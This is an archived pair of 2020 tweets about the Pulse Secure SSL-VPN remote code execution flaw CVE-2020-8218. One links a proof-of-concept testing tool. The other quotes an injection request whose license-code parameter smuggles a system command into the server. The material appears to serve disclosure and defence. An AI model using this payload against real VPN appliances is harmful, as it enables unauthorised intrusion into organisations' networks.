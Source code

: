 # Dinosn
**https://twitter.com/Dinosn/status/1299964418256707586 _at 2020-08-30, 06:57:24_**
<blockquote>
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) https://t.co/wYv8IzMoFA
</blockquote>

* https://github.com//withdk//pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1299655751758221319 _at 2020-08-29, 10:30:52_**
<blockquote>
CVE-2020-8218 : Pulse Secure SSL-VPN post-auth RCE
Cc @chybeta

hxxps://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/okL58FZVJU https://t.co/OGxySMF4SM
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
